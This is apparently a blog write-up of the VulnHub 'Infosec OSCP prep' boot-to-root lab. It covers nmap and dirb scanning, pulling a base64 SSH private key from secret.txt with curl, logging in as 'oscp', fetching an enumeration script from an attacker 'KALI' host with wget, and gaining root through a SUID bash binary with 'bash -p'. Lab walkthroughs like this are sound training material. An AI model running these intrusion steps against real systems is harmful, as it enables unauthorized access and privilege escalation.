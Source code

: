 ```yaml
---
title: "Infosec OSCP prep"
date: 2024-06-12
draft: false
summary: "Writeup for Infosec OSCP prep CTF challenge on VulnHub."
tags: ["linux", "suid", "wordpress"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/infosec_oscp_prep/cover.png"
  caption: "Infosec OSCP prep VulnHub Challenge"
  alt: "Infosec OSCP prep cover"
platform: "VulnHub"
---
```


*Infosec OSCP prep* is a boot to root box that contains 1 flag in the */root/* directory.
<!--more-->
You can download  *Infosec OSCP prep* from **VulnHub** by clicking on the link given below: 
- https://www.vulnhub.com/entry/infosec-prep-oscp,508/

## Recon

After booting the machine on **VMware**, I performed a network scan using **netdiscover** to discover the target IP.

```bash
netdiscover -r 192.168.1.0/24  
```

After finding the target IP, I performed an **nmap** aggressive scan to identify open ports and services.

```
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 33060    | mysql       |

![](https://cdn.ziomsec.com/infosec_oscp_prep/1.png)

## Initial Foothold

I visited the web application that was running on the target using my browser.

![](https://cdn.ziomsec.com/infosec_oscp_prep/2.png)

![](https://cdn.ziomsec.com/infosec_oscp_prep/3.png)

The home page disclosed 2 things:
- Username: *oscp*.
- CMS: *WordPress*.

Upon closer inspection, when I clicked on the *SAMPLE PAGE* button on the top right corner, I got redirected to another page. I scrolled down and found a link to go to a login page.

![](https://cdn.ziomsec.com/infosec_oscp_prep/4.png)

Upon clicking the *Log in* button, I got redirected to a wordpress login panel.

![](https://cdn.ziomsec.com/infosec_oscp_prep/5.png)

To find more hidden directories and files, I ran a scan using **dirb**.

```shell
dirb http://TARGET/ /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/6.png)

![](https://cdn.ziomsec.com/infosec_oscp_prep/7.png)

I visited the *robots.txt* page and found a link to a file called *secret.txt*

![](https://cdn.ziomsec.com/infosec_oscp_prep/8.png)

Upon visiting *secret.txt*, I get a base64 encoded block of text.

![](https://cdn.ziomsec.com/infosec_oscp_prep/9.png)

I decoded this file and downloaded it onto my system.

```shell
curl http://TARGET/secret.txt | base64 -d > secret.txt
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/10.png)

It turned out to be a private key. In order to **ssh** into the target using it, I had to find a valid username. Since the site was running on WordPress, I ran a scan using **wpscan** but didn't find anything besides the version and theme.

```bash
wpscan --url http://192.168.1.7
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/11.png)

![](https://cdn.ziomsec.com/infosec_oscp_prep/12.png)

I had earlier identified a username called *oscp* so, I tried using it along with the private key. To use the key for authentication, I modified its permissions so that only the owner has read and write access.

```shell
mv secret.txt private.key
chmod 600 private.key
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/13.png)

I then authenticated to the box using the key:

```shell
ssh -i private.key oscp@TARGET
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/14.png)

I got initial access to the system.

## Privilege Escalation

The challenge description mentioned that the flag was present inside the */root* directory. So, I tried downloaded **linux smart enumeration** script from **github** to enumerate privilege escalation vectors.

- https://github.com/diego-treitos/linux-smart-enumeration

```shell
cd /tmp
which wget
wget "http://KALI/lse.sh"
chmod +x lse.sh
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/15.png)

It detected an **SUID** bit on the **bash** binary.

![](https://cdn.ziomsec.com/infosec_oscp_prep/16.png)

I manually verified this by using the following command:

```bash
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/17.png)

Now I can simply type **bash -p** to get root access.

The **bash -p** command starts a new instance of the Bash shell in "privileged" mode. In simple terms, it means:
- **bash** is the command to start a new Bash shell.
- **-p** stands for "privileged mode."

With root access, I captured the flag from the *root* directory.

![](https://cdn.ziomsec.com/infosec_oscp_prep/18.png)

## Closure

Here's a short summary of how I pwned the system:
- I found a username from the webpage: *oscp*.
- I found an SSH private key from the *robots.txt* listing inside *secret.txt*.
- I logged in as *oscp* using this SSH private key.
- I found an SUID bit on */bin/bash*.
- I executed privileged mode on **bash** using **bash -p**.

That's it from my side. Happy Hacking :)

------------------------------------------------------------------------------------